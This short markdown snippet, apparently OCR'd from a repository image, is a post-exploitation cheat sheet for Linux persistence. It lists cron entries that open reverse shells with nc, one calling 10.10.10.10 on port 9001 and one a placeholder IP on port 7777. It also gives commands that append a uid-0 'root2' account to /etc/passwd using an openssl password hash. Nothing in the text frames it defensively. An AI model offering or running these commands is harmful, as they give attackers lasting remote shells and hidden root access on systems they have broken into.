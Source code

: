 # Add a cronjob
```bash
crontab -e 
* * * * rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f

* * * * nc <ip> 7777 -e /bin/bash
```
-----------------------

# Create a root user
```bash
openssl passwd password123 #copy the output
echo "root2:<output here>:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2 #type password
```
